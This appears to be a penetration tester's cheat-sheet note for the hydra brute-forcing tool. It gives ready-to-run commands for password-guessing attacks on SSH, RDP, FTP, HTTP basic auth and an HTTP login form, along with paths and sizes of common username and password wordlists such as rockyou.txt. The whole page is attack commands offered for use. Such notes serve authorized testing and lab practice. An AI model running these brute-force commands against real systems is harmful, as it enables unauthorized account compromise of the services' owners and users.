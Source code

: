 ```yaml
---
tags:
  - tool
  - brute_forcing
---
```

# hydra

Brute force services

## Capabilities

```powershell
# Brute force protocols
hydra -l username -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -s 2222 ssh://$IP -f
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p '$PASSWD' rdp://$IP -f
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p '$PASSWD' ftp://$IP -f

# Brute force basic auth (401)
hydra -l username -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $IP http-get -f

# Brute force HTTP post request
hydra -l username -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $IP http-post-form '/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid' -f
```

**Note:** `L` and `P` are used for username and password respectively, lowercase either of them to specify a single value

### Wordlists

```powershell
# Usernames
/home/kali/repos/statistically-likely-usernames/jsmith2.txt     # 4997
/usr/share/seclists/Usernames/Names/names.txt                   # 10177
/home/kali/repos/statistically-likely-usernames/jsmith.txt      # 48705
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt # 8295455

# Passwords
/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt # 197
/usr/share/wordlists/rockyou.txt                               # 14344392
```

